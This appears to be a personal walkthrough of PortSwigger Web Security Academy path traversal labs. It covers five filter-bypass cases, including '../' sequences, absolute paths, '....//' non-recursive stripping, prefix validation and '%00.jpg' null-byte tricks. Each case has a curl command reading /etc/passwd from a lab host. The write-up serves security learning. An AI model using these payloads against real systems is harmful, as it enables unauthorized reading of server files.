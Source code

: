 # Path traversal

- https://portswigger.net/web-security/file-path-traversal

## File path traversal, simple case

Images present on the website

```
<img src="/image?filename=20.jpg">
```

Injecting `../` into `filename` param does the trick and retrives the file:

```
curl https://0a7000b80364f75481ee258800ad000d.web-security-academy.net/image?filename=../../../etc/passwd
```

## File path traversal, traversal sequences blocked with absolute path bypass

Same images as before.

Injecting `../` respond with `No such file`, but reading by absolute path `/etc/passwd` bypasses this defense:

```
curl https://0a84007e03e9507485edd59800410022.web-security-academy.net/image?filename=/etc/passwd
```

## File path traversal, traversal sequences stripped non-recursively

Same images as above.

Pattern `../` gets stripped one time, but not recusrively, so injecting `....//` will be stripped to `../`, which will allow to bypass the defanse and get Path Traversal.

```
curl https://0a76006d04446a3c82a0ab4f003200ba.web-security-academy.net/image?filename=....//....//....//....//....//etc/passwd
```

## File path traversal, validation of start of path

Same images as before, but this time starting with `/var/www/images`.

```
/image?filename=/var/www/images/71.jpg
```

Trying to remove the `/var/www/images/` in the path returned error `"Missing parameter 'filename'"`, so I suspect this prefix is neccessary.

Accessing the image and adjusting the path still gets us the image:

```
/image?filename=/var/www/images/../images/71.jpg
```

To retrieve the `/etc/passwd`:

```
curl https://0a99003a031b543b819b7f0600e9000d.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd
```

## File path traversal, validation of file extension with null byte bypass

Page contains images:

```
<img src="/image?filename=60.jpg">
```

Changing the `filename` param still retrieves us the image:

```
/image?filename=../images/60.jpg
```

Changing filename like this respond with `No such file` error

```
/image?filename=../../../../etc/passwd
```

But adding null `%00` separated supported extension retrieves the file

```
/image?filename=../../../../etc/passwd%00.jpg
```

Null must be terminating string before the extension during file loading, but it allows to check for last 4 characters on input sanitization.

```
curl https://0a8b00f10481f9688226337300b60043.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg
```
